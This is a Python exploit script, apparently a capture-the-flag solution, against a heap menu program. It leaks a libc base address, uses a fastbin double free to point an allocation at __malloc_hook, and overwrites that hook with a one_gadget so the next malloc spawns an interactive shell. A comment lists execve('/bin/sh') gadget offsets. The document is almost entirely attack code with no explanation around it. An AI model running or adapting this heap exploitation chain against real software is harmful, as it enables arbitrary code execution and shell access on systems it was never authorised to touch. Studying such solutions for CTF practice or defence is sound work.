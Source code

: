 ```python
def edit(index,content):
    sla(menu,'3')
    sla('input the index: ',str(index))
    sla('input your content:',content)

def show(index):
    sla(menu,'4')
    sla('input the index: ',str(index))

chunk_link=0x6020c0

#=========================
# leak libc_base

add(0x100)
add(0x100)
delete(0)
show(0)
rv('content:')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4b78
success("libc base:"+hex(libc_base))
delete(1)

#===================================
# now exploit
add(0x68)      #2
add(0x68)      #3
add(0x68)      #4 avoid chunk count overflow to 0xFFFF....

# double free
delete(2)
delete(3)
delete(2)

# fake the fd to __malloc_hook
add(0x68,p64(libc_base+0x3c4aed))
add(0x68)
add(0x68)
# rewrite to one_gadget
add(0x68,'a'*0x13+p64(libc_base+0x4526a))
#gdb.attach(p)

add(0x233)
p.interactive()


'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```